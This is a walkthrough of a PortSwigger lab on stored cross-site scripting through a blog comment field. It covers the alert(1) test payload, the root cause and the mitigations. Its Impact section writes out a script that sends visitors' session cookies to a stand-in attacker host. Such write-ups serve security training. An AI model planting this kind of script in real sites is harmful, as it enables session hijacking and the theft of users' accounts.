

# Stored XSS into HTML context with nothing encoded

| Field | Value |
|---|---|
| **Difficulty** | Apprentice |
| **Category** | Cross-Site Scripting (XSS) |
| **Lab URL** | `https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded` |

---

## Lab Objective

Submit a comment that calls the `alert` function when the blog post is viewed.

---

## Skills Learned

- Identifying stored (persistent) XSS vectors
- Exploiting comment/forum functionality
- Understanding the difference between reflected and stored XSS

---

## Recon

The lab is a blog with a comment section on each post. The comment form has fields for name, email, website, and comment text.

I submitted a test comment with benign text to see how it renders. The comment appeared on the page immediately after submission — server-side rendering, no sanitization.

---

## Finding the Vulnerability

The comment body is reflected directly into the HTML when the page loads. If the server doesn't encode HTML metacharacters, stored XSS is present.

I submitted a simple script payload in the comment field to test:

```
<script>alert(1)</script>
```

No encoding, no filtering. The script executed every time the page loaded.



---

## Exploitation Steps

1. Opened the lab in Burp's browser.
2. Navigated to any blog post.
3. Scrolled to the comment section.
4. Filled in: Name (anything), Email (anything), Comment: `<script>alert(1)</script>`.
5. Clicked "Submit".
6. The page reloaded and the alert fired.
7. Lab solved.

---

## Payload

```html
<script>alert(1)</script>
```

Same payload as reflected XSS, but stored server-side and served to every visitor.

---

## Why It Works

The application stores user input in the database and renders it directly into HTML on every page load without encoding.

Flow:
1. User submits comment → stored in database
2. Another user requests the blog post
3. Server queries the database and embeds the comment into the HTML response
4. Browser parses the injected `<script>` tag and executes the JavaScript

Since there's no output encoding at render time, any HTML/JavaScript in the comment is executed in the browser of every user who views the page.

---

## Root Cause

The developer trusted user input at two points:

- **Input stage**: No validation or sanitization when storing the comment
- **Output stage**: No encoding when rendering the comment in the HTML response

A template like `<?= $comment['body'] ?>` without `htmlspecialchars()` is the classic pattern behind this vulnerability.

---

## Impact

Stored XSS is more severe than reflected XSS because:

- **Self-propagating**: Every visitor is affected — no social engineering required
- **Persistent**: The payload stays active until removed
- **Wider reach**: Can target admins, moderators, and all users
- **Session hijacking**: Steal cookies of privileged users
- **Backdoor access**: Create admin accounts, modify content, exfiltrate data

An attacker could submit a payload that steals session cookies and sends them to an attacker-controlled server:

```html
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```

---

## Mitigation

- **Output encode** all user-generated content before rendering — use context-specific encoding (HTML body, attribute, JS contexts)
- **Use a templating engine** with auto-escaping (React JSX, Angular, Jinja2, Go `html/template`)
- **Validate input** on submission — reject or strip dangerous HTML tags if the application doesn't need rich text
- **Implement Content Security Policy (CSP)** to block inline scripts
- **Sanitize rich content** with an allowlist-based HTML sanitizer (e.g., DOMPurify) if users need formatting
- **HttpOnly cookies** to prevent JavaScript access to session cookies

---

## Key Takeaways

- Every place user input is stored and later displayed is a potential stored XSS vector
- Comments, profiles, forum posts, reviews — test them all
- Stored XSS is higher impact than reflected because the attack is self-contained
- Always check both the submission endpoint and the rendered output
- The fix is always on the output side — encode when rendering, not just when storing

---

## References

- [PortSwigger: Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)
- [PortSwigger: Cross-site scripting (XSS)](https://portswigger.net/web-security/cross-site-scripting)
- [OWASP: XSS](https://owasp.org/www-community/attacks/xss/)
